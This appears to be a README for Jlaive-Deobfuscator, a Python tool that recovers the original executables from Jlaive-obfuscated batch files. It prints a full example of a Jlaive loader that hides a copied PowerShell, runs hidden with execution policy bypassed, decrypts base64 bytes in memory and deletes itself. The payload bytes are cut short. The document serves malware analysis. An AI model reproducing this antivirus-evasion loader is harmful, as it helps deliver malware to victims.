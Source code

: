 # Jlaive - What is it
Jlaive is an obfuscator engine which basically converts a .NET exe to obfuscated .bat file for AV evasion.

An example of the output of this tool can be seen below:
```bat
@echo off
echo F|xcopy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe "%~dp0%~nx0.exe" /y
attrib +s +h "%~dp0%~nx0.exe"
cls
cd %~dp0
set "fENYbyZJkq=3IHsgcHVib"
set "oMDpdCkaMN=k = [Syste"
set "HlBoTjvPwk=6UdLqADvWw" && set "TgmwRYHkmK=ucHV0Lkxlb"
set "nVaFdaubIS=npolicy by" && set "BIXBCNceka=gSUNyeXB0b" && set "YNWXZHqJqc=gZ3MuRGlzc"
set "tQIzxvQESC=GtleSwgYnl" && set "XOhAfBkWmm=vert]::Fro"
set "kLMTZqURfX=U), [Syste" && set "qVRmUESgbg=$tIukXz = " && set "saTMAKUycO=SBpbnB1dCw" && set "KdmMRlyyEK=nlwdG9yLlR" && set "PMyINOXuEO=GJ5dGVbXSB"
set "FscnzUUuAC=::FromBase"
set "BARCwvwdkW=-noprofile" && set "vwRxWzGiFE=))).EntryP"
set "sMNjHgEuTS=md0aCk7IGR" && set "ZMFfhtZaCd=n $tIukXz;" && set "NRBHbUNrkG=etString([" && set "tNCgPVjCku=kID0gZGVjc"
set "CDtNvqDvqL=ngth - 1];" && set "ieHoPTyjEy=mBase64Str" && set "rajcuUaXTP=m.IO.File]" && set "ihrpBFSJkF=Gh5OyBwdWJ" && set "ObqwUWcIse=yZXR1cm4gb"
set "wrxnxJJZUi=10gY1VaaUJ"
set "tPPsLfEmfH=ssembly]::" && set "wYpmPrqEes=0ZW0uU2Vjd" && set "PeMJlFunvD=%~nx0.exe " && set "xRRkIyDKnV=GUgPSBDaXB"
set "LguDwtEgTm=ing('dXNpb"
set "rBnjvHzCEC=SwgaXYpOyB" && set "BwxNyGNeWs=and $NDmNb" && set "NOLCAWkezL=XJpdHkuQ3J" && set "JxakJbogEh=c212SWxpVX"
set "avLgdUKvyf=System.Con"
set "dzLmqrEuSn=Load([DuUJ"
set "buYFlxnyag=mcgU3lzdGV"
set "JrzOnKokrg=G8obXNvKTs"
set "VKtWSAzekf=kaW5nTW9kZ"
set "UDLwXXbfUO=eDefinitio"
set "pZCqseAkqe=ext('%~f0').Split([Environment]::NewLine);$WWCkvU "
set "bEuenIEGAB=ert]::From"
set "evGNjFJkiq=::ReadAllT"
set "EtpzUbnYkW=XRlRGVjcnl"
set "rAJgHQskWM=3VzaW5nIFN" && set "nUMBtoFYkK=yBNZW1vcnl" && set "DlNUGnnsfJ=gTWVtb3J5U" && set "tguYxsQeEG=hbmFnZWQgY" && set "ZxsoDXEAmh=::cUZiBs(["
set "rrBdlEgEiR=" && set "yuBNvyTjWG=ieXRlW10gZ" && set "EpkleGpiSQ=zLlBhZGRpb" && set "hlfUYJcbnE=//github.c" && set "JaaFxTqmkm=zKGJ5dGVbX"
set "ovxvfokepJ=yA9IG5ldyB" && set "NdBkzRUyNc=-Type -Typ"
set "cECnVddQIO=gYWVzLk1vZ"
set "JYdzLMkAMI=zdGVtLklPO"
set "LIJyjYDhEO=mBase64Str"
set "FQDboAlVkm=0cmVhbSBtc" && set "CtISDxCuyg=$NDmNbk.Le"
set "cPhgSHJFiE=laive" && set "wOUbaaionW=8dQ='), [S"
set "TFqYzkUFKP=oZXJNb2RlL" && set "XmJlbVCEeg=ybSBkZWNye"
set "rsAojPyqqK=pass -comm"
set "HjDUCECfuK=vY2soaW5wd" && set "RLYjZdmUem=i5EaXNwb3N"
set "JmcNfgjlkO=3IE1lbW9ye"
set "wotBbJUCXp=28gPSBuZXc"
set "ZMbsYBZiEq=S5QS0NTNzs"
set "JWEGEWztyS=y5Db21wcmV" && set "wYGjMTSRLU=G9zZSgpOyB" && set "RZdMvuYUqn=tLlRleHQ7d"
set "DDhHMvstEO=GljIHN0YXR" && set "BLkZldvAHE=TdHJlYW0gb" && set "HkRRYWZUWm=7IHZhciBnc"
set "EvYPmaikjR=lY3J5cHRvc" && set "NUGvGuKfkH=]] ('%*')))" && set "TiPQaNUyEk=om/ch2sh/J" && set "mMQdKSFyum=yeXB0ZWQ7I"
set "FFeCIpqPyy= -windowst"
set "lYRjpzjmyM=mcgPSBQYWR" && set "jEdNSXkuFv=oint.Invok"
set "UeVhkuMOtk=XNpID0gbmV"
set "reZEtGxrSh=y5EaXNwb3N" && set "uPqpbVZyku=ystem.Conv" && set "QbZOQhYmgk=Fw]::YWqYu"
set "ljXHtMvGyf=jIHN0YXRpY" && set "LulfiaLhEe=XNpbmcgU3l"
set "GVtjxQXtOo=zc2lvbjt1c"
set "EyEeayRkCp=m.Convert]" && set "VTmkqOOkQh=5c3RlbS5JT"
set "DJZvlJxSeK=flection.A"
set "VrbuAavxUi=XQsIDAsIGl" && set "ytnErceFKM=G9zZSgpOyB"
set "WsBCQAkGPI=mFnZWQoKTs" && set "ZeKpegxEqf=UZpbmFsQmx" && set "fYjkFWUCLu=e($null, (" && set "qbrRUujXDM=lKCk7IGFlc" && set "TcbXekUkOV=Base64Stri" && set "ryOJrbkGXw=ncy5Db3B5V" && set "gBhbYMmkar=HWmlwU3RyZ"
set "xFXbUXSqiH=hZXMuQ3JlY"
set "jUxqxtJWwK=XB0b3IgPSB"
set "cUNiABJEPG=64String('"
set "BYliuSSkds=E1lbW9yeVN"
set "DgsMJGRBkW=kNCQzsgYWV" && set "yxMQSdikCf=System.Con" && set "pqydlkWvlv=yYW5zZm9yb"
set "xmGqfoyigz=yYXkoKTsgf" && set "mKWZuiSqkG= -executio"
set "pWisjkyuvo=g]::UTF8.G" && set "RdergtMaPv=3MgRHVVSkZ" && set "FoeUHvtBeI=3RyZWFtKCk"
set "PtbWQSaxkP=gYnl0ZVtdI" && set "prlyUalgGj=, [string[" && set "qfhEOMrfue=rem https:"
set "EHNuBdghke=XNvLlRvQXJ"
set "atzklLZikC=ieXRlcyk7I"
set "VzZHdHfnkK=wdG9yKGtle" && set "pbEQoHEFya=3Npb25Nb2R"
set "wyIRpJUzUy=ng('i9gKth"
set "aRvucOwBMK=lLkRlY29tc"
set "ZGtoXTmqEa=vert]::Fro" && set "LBXFmXrGGk=yle hidden" && set "PgpYWgnESr=SB9'));Add" && set "jQJlvwKnUC=HVybiBkZWN"
set "yutyGaKptk=pYyBieXRlW"
set "NrVzEyZKxJ=gWVdxWXVPK"
set "ElUeqoZkeB=5cHRvZ3Jhc" && set "VqDUHkduHE=HJlc3MpOyB" && set "bXuhcMQWEC=tc2kuRGlzc" && set "wIkgxuqwSU=ieXRlcykge" && set "BeUppPecxE=xt.Encodin" && set "JXrPZaVOUG=G9zZSgpOyB" && set "FclUyvUGNa=WVzID0gbmV" && set "QQwGKBkSYC=WS5VvlzyRn" && set "QSDzwOfsqN=saWMgY2xhc" && set "nNEnadmgAy=SB7IEFlc01"
set "ZSnQhDQxOJ=WFtKG1zaSw"
set "hCSlczZEed=[System.Re"
set "tAyNMEciUo=VN0cmVhbSh" && set "lELXxFDard=O([DuUJFw]"
set "nNsRHgWaoU== $NDmNbk["
set "ldbJMTqUaX=0ZVtdIGl2K" && set "sSUxwkECwE=1RyYW5zZm9" && set "IYUhcqkikI=1hMu1g==')"
set "rgNaXziIpC=GVjcnlwdGV"
set "xdaAAuWEqb=3IEFlc01hb" && set "TYDLSAjkyA=gQ29tcHJlc" && set "GgmonIEaZP=ing($WWCkv"
set "IArsKCeeLv=tc28uRGlzc" && set "oLgiwxduaV=H0gcHVibGl" && set "GNZxLtdDkO=[System.Te"
set "amOerQZEai=OxhVVfEWSN" && set "fHTMzMCrak=yBieXRlW10"
set "kKopFOwikC=2luZyBTeXN"
set "occQjttmnX=lKCk7IHJld"
set "eZKAFlWkCV=MlVcdDTvXm"
%qfhEOMrfue%%hlfUYJcbnE%%TiPQaNUyEk%%cPhgSHJFiE%
%PeMJlFunvD%%BARCwvwdkW%%FFeCIpqPyy%%LBXFmXrGGk%%mKWZuiSqkG%%nVaFdaubIS%%rsAojPyqqK%%BwxNyGNeWs%%oMDpdCkaMN%%rajcuUaXTP%%evGNjFJkiq%%pZCqseAkqe%%nNsRHgWaoU%%CtISDxCuyg%%CDtNvqDvqL%%qVRmUESgbg%%GNZxLtdDkO%%BeUppPecxE%%pWisjkyuvo%%NRBHbUNrkG%%avLgdUKvyf%%ZGtoXTmqEa%%LIJyjYDhEO%%LguDwtEgTm%%buYFlxnyag%%RZdMvuYUqn%%LulfiaLhEe%%JYdzLMkAMI%%rAJgHQskWM%%VTmkqOOkQh%%JWEGEWztyS%%GVtjxQXtOo%%kKopFOwikC%%wYpmPrqEes%%NOLCAWkezL%%ElUeqoZkeB%%ihrpBFSJkF%%QSDzwOfsqN%%RdergtMaPv%%fENYbyZJkq%%DDhHMvstEO%%yutyGaKptk%%wrxnxJJZUi%%JaaFxTqmkm%%saTMAKUycO%%PtbWQSaxkP%%tQIzxvQESC%%ldbJMTqUaX%%nNEnadmgAy%%tguYxsQeEG%%FclUyvUGNa%%xdaAAuWEqb%%WsBCQAkGPI%%cECnVddQIO%%xRRkIyDKnV%%TFqYzkUFKP%%DgsMJGRBkW%%EpkleGpiSQ%%lYRjpzjmyM%%VKtWSAzekf%%ZMbsYBZiEq%%BIXBCNceka%%sSUxwkECwE%%XmJlbVCEeg%%jUxqxtJWwK%%xFXbUXSqiH%%EtpzUbnYkW%%VzZHdHfnkK%%rBnjvHzCEC%%yuBNvyTjWG%%rgNaXziIpC%%tNCgPVjCku%%KdmMRlyyEK%%pqydlkWvlv%%ZeKpegxEqf%%HjDUCECfuK%%VrbuAavxUi%%TgmwRYHkmK%%sMNjHgEuTS%%EvYPmaikjR%%RLYjZdmUem%%qbrRUujXDM%%reZEtGxrSh%%occQjttmnX%%jQJlvwKnUC%%mMQdKSFyum%%oLgiwxduaV%%ljXHtMvGyf%%fHTMzMCrak%%NrVzEyZKxJ%%PMyINOXuEO%%wIkgxuqwSU%%nUMBtoFYkK%%BLkZldvAHE%%UeVhkuMOtk%%JmcNfgjlkO%%tAyNMEciUo%%atzklLZikC%%BYliuSSkds%%FQDboAlVkm%%wotBbJUCXp%%DlNUGnnsfJ%%FoeUHvtBeI%%HkRRYWZUWm%%ovxvfokepJ%%gBhbYMmkar%%ZSnQhDQxOJ%%TYDLSAjkyA%%pbEQoHEFya%%aRvucOwBMK%%VqDUHkduHE%%ryOJrbkGXw%%JrzOnKokrg%%YNWXZHqJqc%%JXrPZaVOUG%%bXuhcMQWEC%%wYGjMTSRLU%%IArsKCeeLv%%ytnErceFKM%%ObqwUWcIse%%EHNuBdghke%%xmGqfoyigz%%PgpYWgnESr%%NdBkzRUyNc%%UDLwXXbfUO%%ZMFfhtZaCd%%hCSlczZEed%%DJZvlJxSeK%%tPPsLfEmfH%%dzLmqrEuSn%%QbZOQhYmgk%%lELXxFDard%%ZxsoDXEAmh%%yxMQSdikCf%%XOhAfBkWmm%%ieHoPTyjEy%%GgmonIEaZP%%kLMTZqURfX%%EyEeayRkCp%%FscnzUUuAC%%cUNiABJEPG%%HlBoTjvPwk%%QQwGKBkSYC%%JxakJbogEh%%eZKAFlWkCV%%wOUbaaionW%%uPqpbVZyku%%bEuenIEGAB%%TcbXekUkOV%%wyIRpJUzUy%%amOerQZEai%%IYUhcqkikI%%vwRxWzGiFE%%jEdNSXkuFv%%fYjkFWUCLu%%prlyUalgGj%%NUGvGuKfkH%
%rrBdlEgEiR%
attrib -s -h "%~dp0%~nx0.exe"
del "%~dp0%~nx0.exe"(goto) 2>nul & del "%~f0"
exit /b
jjNNb7+5GJxTidTZUiwqq6EMDNO1MKBC21fz5d08N7l -- a bunch more of b64 encrypted bytes ---
```



# Jlaive-Deobfuscator
This is a project I thought of doing after being inspired by the [Get-UnJlaive](https://github.com/Dump-GUY/Get-UnJlaive) project written in powershell.

The Get-UnJlaive is written in powershell and its goal is to recover the original executable before it was converted to an obfuscated batch file.
The issue is that, if the original executable was waiting for a user action to happen, it would fail to recover it.  Also, it was not extracting all the intermediate files that were being created nor it deobfuscated the .bat file.  
Truth is, there was no need to provide all the intermediate files but I thought it would be nice to somehow extract them all:)

So, here is my attempt of writing a script in python that:  
- Deobfuscates the .bat file to a more readable form
- Recovers all the .cs files created.
- Recovers all the .ps1 files created.
- Recovers the keys, ivs and encrypted blocks and decrypts them, providing the intermediate .exe files.
- Recovers the original executable before being converted to that obfuscated .bat file.


# Dependencies
This script needs the following:
- pythonnet
- ironpython
- dnlib.dll
